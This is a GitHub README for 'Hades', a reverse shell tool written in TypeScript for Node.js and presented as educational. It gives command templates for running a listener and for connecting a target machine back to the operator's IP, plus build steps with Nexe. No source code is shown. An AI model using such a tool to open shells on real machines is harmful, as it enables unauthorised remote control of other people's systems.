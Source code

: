 # Hades
Simple reverse shell CLI developed for education purposes.

This program is written in Typescript and is made to run with [Node.js](https://nodejs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
Disclaimer
- This reverse shell is for academic purposes, the use of this software is your responsibility.
- This software is still in development, not all the features are implemented yet.

To use this program, 
1) Garb a compiled version of the program.
2) Run `Hades -a [port to listen on]` on the main machine.
3) Run `Hades -c [admin's port] [admin's ip]` on a target machine.
4) Done !

## Compile using Nexe
To compile from source, you will need to follow the instructions listed below.

1) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
2) Install [Nexe](https://github.com/nexe/nexe).
3) Execute `nexe src/main.js -o bin/hades -t "linux-x64-14.15.3" -r "src/**.js"`.
4) Change `linux-x64` with the os you are using following by the [architecture of your CPU](https://linuxconfig.org/what-is-my-architecture-is-my-cpu-64-bit-or-32-bit#:~:text=The%20best%20way%20to%20quickly,default%20on%20all%20Linux%20distros.).

Note that the program is already compiled in the `./bin` directory.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Axios` - Used to send requests.
- `WSS` - Used for socket connections.
- `Express` - Used to setup servers.